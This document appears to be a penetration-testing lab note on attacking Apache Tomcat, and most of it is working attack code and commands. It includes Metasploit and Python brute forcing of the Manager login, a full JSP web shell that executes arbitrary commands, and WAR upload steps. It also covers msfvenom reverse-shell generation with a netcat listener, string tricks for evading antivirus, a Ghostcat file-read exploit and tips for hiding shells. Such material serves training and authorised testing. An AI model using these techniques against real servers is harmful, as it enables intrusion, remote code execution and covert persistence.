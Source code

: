 ## Attacking Apache Tomcat
### Objective

Gain internal access via an exposed Tomcat service through:

- Credential brute-forcing    
- WAR deployment
- Web shells
- LFI exploitation (Ghostcat/CVE-2020-1938)
### 1. Tomcat Manager – Login Brute Force
#### Method: Using Metasploit

Module: `auxiliary/scanner/http/tomcat_mgr_login`

Configuration:

```bash
set VHOST web01.inlanefreight.local
set RPORT 8180
set RHOSTS 10.129.201.58
set STOP_ON_SUCCESS true
```

Wordlists Used:

- Usernames: `/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt`    
- Passwords: `/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt`
Run:

```bash
run
```

Result:

- Successful credentials found: `tomcat:admin`    
#### Metasploit Proxy Debugging

To debug through Burp:

```bash
set PROXIES HTTP:127.0.0.1:8080
run
```

Check authorization headers:

```bash
echo YWRtaW46dmFncmFudA== | base64 -d
# Output: admin:vagrant
```
### 2. Brute Force with Python
#### Script: `mgr_brute.py`

```bash
python3 mgr_brute.py \
-U http://web01.inlanefreight.local:8180/ \
-P /manager \
-u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt \
-p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

Result:

- Hit: `Username : b'tomcat'`, `Password : b'admin'`    
### 3. Tomcat Manager – WAR Upload

#### Step-by-Step:

1. JSP Web Shell (cmd.jsp):
   
```jsp
<%@ page import="java.util.*,java.io.*"%>
    <FORM METHOD="GET" NAME="myform">
      <INPUT TYPE="text" NAME="cmd">
      <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <%
    if (request.getParameter("cmd") != null) {
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String line;
        while ((line = dis.readLine()) != null) { out.println(line); }
    }
    %>
</pre>
```

2. Create WAR:
   
```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
```

3. Upload WAR:
    - Go to `/manager/html`
    - Upload `backup.war`

4. Access Web Shell:

```bash
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```

5. Cleanup:
    - Click Undeploy in manager    
    - Confirm WAR location: `/opt/tomcat/apache-tomcat-10.0.10/webapps`
### 4. Reverse Shell via Metasploit WAR Payload

1. Generate WAR with msfvenom:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```
 
2. Deploy WAR in `/manager/html`
 
3. Start Listener:

```bash
nc -lnvp 4443
```
 
4. Trigger Shell:
   
    - Visit `/backup`
### 5. Web Shell Evasion Tactics

- Modify strings to evade AV:
   
```jsp
FileOutputStream(f);stream.write(m);o="Uploaded:
# becomes:
FileOutputStream(f);stream.write(m);o="uPlOaDeD:
```
 
- Detection dropped from 2/58 to 0/58 on VirusTotal.    
### 6. CVE-2020-1938: Ghostcat (Tomcat AJP LFI)

- Affects: Tomcat < 9.0.31, < 8.5.51, < 7.0.100    
- Exploits misconfigured AJP port (default: 8009)

Scan:

```bash
nmap -sV -p 8009,8080 app-dev.inlanefreight.local
```

PoC:

```bash
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml
```

Result:

- Can read files within `/webapps`, e.g. `web.xml`
### 7. Key Considerations

- WAR uploads offer full RCE    
- Tomcat often runs as SYSTEM/root → high-value foothold
- Always clean up:
    - Remove WARs
    - Undeploy apps        
- Protect shells:
    - Random filenames        
    - Restrict IPs
    - Add authentication        
# Tags
> #Exploitation #Application-Exploitation #Tomcat 